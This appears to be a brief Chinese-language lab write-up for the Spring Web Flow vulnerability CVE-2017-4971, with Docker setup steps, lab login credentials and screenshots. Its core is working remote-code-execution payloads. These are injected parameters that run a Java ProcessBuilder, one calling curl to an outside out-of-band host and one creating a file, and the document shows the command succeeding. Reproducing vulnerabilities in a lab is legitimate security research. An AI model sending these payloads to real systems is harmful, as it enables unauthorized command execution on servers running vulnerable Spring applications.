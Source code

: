 URL:https://threathunter.org/topic/593d562353ab369c55425a90

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30082
```
登录账号：keith
登录密码：melbourne

```
ceye.io测试
&_(new+java.lang.ProcessBuilder("/usr/bin/curl","http://spring.test.ceye.io/")).start()=iswin
```
```
&_(new+java.lang.ProcessBuilder("/usr/bin/touch","/tmp/success")).start()=iswin
会在docker 容器里面生成一个success文件
root@18c62faacda0:/tmp# ls
hsperfdata_root  success
```

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/CVE-2017-4971/1.png)
![2.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/CVE-2017-4971/2.png)
<iframe height=498 width=510 src='http://player.youku.com/embed/XMjgyMDc3Njk2NA==' frameborder=0 'allowfullscreen'></iframe>